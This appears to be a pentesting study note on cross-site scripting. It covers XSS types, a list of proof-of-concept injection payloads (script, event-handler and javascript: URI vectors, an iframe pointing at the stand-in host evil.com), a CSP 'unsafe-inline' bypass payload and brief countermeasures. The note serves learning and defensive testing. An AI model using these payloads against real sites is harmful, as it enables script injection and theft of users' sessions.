# Cross Site Scripting Vulnerability

Cross-site Scripting (XSS) is a client-side code injection attack. The attacker aims to execute malicious scripts in a web browser of the victim by including malicious code in a legitimate web page or web application.


## Types of XSS: 

- Reflected XSS
	- User input get reflected into the vector we injected in, input isn't stored by any means.

```https://insecure-website.com/status?message=<script>/*+Malicious+Code+*/</script>```

- Stored XSS
	- User input gets stored into database, the value get reflect. (Could be as an example, a Blog post, user nicknames , a Comment, etc)
```javascript	
<p>Hello, Welcome $Username !</p>
<p><script>/* Malicious */</script></p>
```
- DOM-based XSS
	- User input stored and exists in client-side code rather than server-side code.


## XSS Attack Vectors

- ```<script>``` tag
```javascript
<script> alert("XSS"); </script>
```
- JavaScript events
```javascript
<body onload=alert("XSS")>
```
- ```<body>``` tag
```javascript
<body background="javascript:alert("XSS")">
```
- ```<img>``` tag
```javascript
<img src="javascript:alert("XSS");">
```
- ```<iframe>``` tag
```javascript
<iframe src="http://evil.com/xss.html">
```
- ```<input>``` tag
```javascript
<input type="image" src="javascript:alert('XSS');">
```
- ```<link>``` tag
```javascript
<link rel="stylesheet" href="javascript:alert('XSS');">
```
- ```<table>``` tag
- ```<div>``` tag

- XSS Filter Evasion Cheat Sheets: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html 


***

## byPassing Template Engines
- We must search for the right template engine that our application uses, and then we make our search on the available bypasses in order to exploit our target.

***

### CSP - Content Security Policy
- CSP is an added layer of security that helps to detect and mitigate certain types of attacks, including Cross-Site Scripting (XSS) and data injection attacks. 
	-  Enabling CSP, Content-Security-Policy HTTP header
- Allows originating Javascript from own host only.
	 - Content-Security-Policy: script-src 'self'

#### How to ByPass CSP
- ```unsafe-inline```
	- Content-Security-Policy: script-src https://google.com 'unsafe-inline';
	- Working payload: ``` "/><script>alert(1);</script>```

- Read more: https://book.hacktricks.xyz/pentesting-web/content-security-policy-csp-bypass
***

## Countermeasures:

- Must sanitize the input.
	- Application code should never output data received as input directly to the browser without checking it for malicious code.
- Set the HttpOnly flag.
- Use a Content Security Policy


***

## Takeaways: 

- Be sure to view the page source and confirm whether your payloads are being rendered in HTML or Javascript Tags.
- XSS payloads don't always execute immediately after they're submitted.
- When sites sanitize user input by modifying it instead of encoding or scaping values, you should continue testing.
- Having g Javascript knowledge is essential for successfull confirming more complex vulnerabilities.

